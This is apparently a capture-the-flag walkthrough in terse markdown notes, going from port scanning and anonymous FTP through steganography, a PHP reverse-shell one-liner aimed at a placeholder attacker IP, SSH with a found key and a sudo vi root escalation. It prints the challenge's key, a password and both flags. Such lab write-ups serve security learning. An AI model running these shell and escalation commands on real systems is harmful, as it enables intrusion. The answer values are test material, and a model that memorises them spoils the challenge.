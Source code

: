 # key
nmap showed `ftp, ssh and http` - `nmap -F -oN initial IP`  
`nmap -p 21 IP`  
connected tp ftp with anonymous login  
got the picture  
used steghide to see if something is hidden in the file `steghide --extract -sf FILE_NAME`  
got a b65 encoded text file  
decoded it `b64 -d FILE_NAME`  
got a shadow file  

found a `home.php` route on the webserver with `gobuster dir -u IP -w /usr/share/wordlists/seclists/web-content/common.txt`  
found a site where you can enter php code  
got a reverse shell with `php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'` and `nc -lvnp 4444`  
`strings key_rev_key` to find the key  

<details>
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
<summary>key</summary>
</details>

# charlie's password
`cat validate.php` to find the password  

<details>
cn7824
<summary>password</summary>
</details>

# change user to charlie
`cd /home/charlie`  
`teleport` is a private ssh key  
connect to the machine via ssh `ssh -i ssh.key charlie@IP`     

# user flag
`/home/charlie/user.txt`
<details>
flag{cd5509042371b34e4826e4838b522d2e}
<summary>user.txt</summary>
</details>

# root flag
`sudo -l` to find out that vi can be run with sudo  
`sudo vi -c ':!/bin/sh' /dev/null` - found on gtfobins  
found `root.py` in `/root`  
used the key from `/home/charlie/key_rev_key`  to run the program and got the flag  
<details>
flag{cec59161d338fef787fcb4e296b42124}
<summary>root.txt</summary>
</details>
